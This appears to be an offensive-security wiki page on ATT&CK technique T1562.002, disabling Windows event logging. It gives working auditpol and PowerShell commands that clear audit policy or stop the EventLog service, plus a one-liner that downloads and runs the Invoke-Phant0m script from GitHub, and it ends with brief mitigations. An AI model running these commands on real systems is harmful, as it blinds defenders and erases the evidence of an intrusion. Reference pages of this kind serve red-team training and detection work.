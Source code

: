 ```yaml
---
description: https://attack.mitre.org/techniques/T1562/002/
---
```


# Disable Windows Event Logging

**ATT\&CK ID:** [T1562.002](https://attack.mitre.org/techniques/T1562/002/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark>

**Description**

Adversaries may disable Windows event logging to limit data that can be leveraged for detections and audits. Windows event logs record user and system activity such as login attempts, process creation, and much more. This data is used by security tools and analysts to generate detection.

The EventLog service maintains event logs from various system components and applications. By default, the service automatically starts when a system powers on. An audit policy, maintained by the Local Security Policy (secpol.msc), defines which system events the EventLog service logs. Security audit policy settings can be changed by running secpol.msc, then navigating to `Security Settings\Local Policies\Audit Policy` for basic audit policy settings or `Security Settings\Advanced Audit Policy Configuration` for advanced audit policy settings. `auditpol.exe` may also be used to set audit policies.

Adversaries may target system-wide logging or just that of a particular application. For example, the EventLog service may be disabled using the following PowerShell line: `Stop-Service -Name EventLog`. Additionally, adversaries may use `auditpol` and its sub-commands in a command prompt to disable auditing or clear the audit policy. To enable or disable a specified setting or audit category, adversaries may use the `/success` or `/failure` parameters. For example, `auditpol /set /category:"Account Logon" /success:disable /failure:disable` turns off auditing for the Account Logon category. To clear the audit policy, adversaries may run the following lines: `auditpol /clear /y` or `auditpol /remove /allusers`.

By disabling Windows event logging, adversaries can operate while leaving less evidence of a compromise behind.

\[[Source](https://attack.mitre.org/techniques/T1562/002/)]

## Techniques

### auditpol (Native)

Delete the per-user audit policy for all users, reset the system audit policy settings for all subcategories, and set all the audit policy settings to disabled,

```
auditpol.exe /clear /y
auditpol.exe  /remove /allusers
```

### Invoke-Phant0m

Completely disables the event log service. Requires a system restart to return normal operation.

```powershell
iex (iwr -usebasicparsing https://raw.githubusercontent.com/olafhartong/Invoke-Phant0m/master/Invoke-Phant0m.ps1);Invoke-Phant0m
```

![](../../../../.gitbook/assets/Invoke-Phantom.png)

## Mitigation

* Ensure proper process and file permissions are in place to prevent adversaries from disabling or interfering with logging or deleting or modifying .evtx logging files. Ensure .evtx files, which are located at `C:\Windows\system32\Winevt\Logs`[\[13\]](https://forensicswiki.xyz/wiki/index.php?title=Windows\_XML\_Event\_Log\_\(EVTX\)), have the proper file permissions for limited, legitimate access and audit policies for detection.
* Ensure proper Registry permissions are in place to prevent adversaries from disabling or interfering logging. The addition of the MiniNT registry key disables Event Viewer.
